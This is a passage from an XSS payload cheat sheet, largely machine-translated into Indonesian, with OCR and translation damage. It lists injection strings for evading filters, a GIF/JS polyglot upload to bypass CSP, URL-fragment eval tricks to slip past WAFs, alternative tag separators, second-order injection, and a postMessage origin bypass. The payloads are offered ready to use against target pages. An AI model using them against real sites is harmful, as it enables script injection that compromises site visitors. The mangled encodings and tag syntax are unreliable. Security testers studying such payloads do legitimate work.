 fungsi. Hanya injeksi inline.

    "o<x>nmouseover=alert<x>(1)//
    
    "autof<x>ocus o<x>nfocus=alert<x>(1)//

> File Upload Injection – HTML/js GIF Disguise

Gunakan untuk mem-bypass CSP melalui pengunggahan file. Simpan semua konten di bawah ini sebagai "xss.gif" atau "xss.js" (untuk ketat

Memeriksa MIME). Itu dapat diimpor ke halaman target dengan <link rel = import href = xss.gif> (juga

“Xss.js”) atau <script src = xss.js> </script>. Ini gambar / gif untuk PHP.

      GIF89a=//<script>
    
      alert(1)//</script>;

> Jump to URL Fragment

Gunakan saat Anda perlu menyembunyikan beberapa karakter dari payload Anda yang akan memicu WAF

sebagai contoh. Itu menggunakan format payload masing-masing setelah fragmen URL (#).

      eval(URL.slice(-8)) #alert(1)
    
      eval(location.hash.slice(1)) #alert(1)
    
      document.write(decodeURI(location.hash)) #<img/src/onerror=alert(1)>

> HTML Alternative Separators

Gunakan saat ruang default tidak diizinkan. Garis miring dan kutipan (tunggal atau ganda) mungkin URL

disandikan (% 2F,% 27 dan% 22 masing-masing) juga, sementara tanda tambah (+) hanya dapat digunakan dalam URL.

Tag Scheme:

<name \[1\] attrib \[2\] = \[3\] value \[4\] handler \[5\] = \[6\] js \[7\]>

     \[1\], \[2\], \[5\] => %09, %0A, %0C, %0D, %20, / and +
    
     \[3\] & \[4\] => %09, %0A, %0C, %0D, %20, + and ' or " in both
    
     \[6\] & \[7\] => %09, %0A, %0B, %0C, %0D, %20, /, + and ' or " in both

> 2 nd Order XSS Injection

Gunakan saat input Anda akan digunakan dua kali, seperti disimpan dinormalisasi dalam database dan kemudian

diambil untuk digunakan nanti atau dimasukkan ke DOM

      &lt;svg/onload&equals;alert(1)&gt;

> Event Origin Bypass for postMessage() XSS

Use when a check for origin can be bypassed in javascript code of target by prepending one

of the allowed origins as a subdomain of the attacking domain that will send the payload.
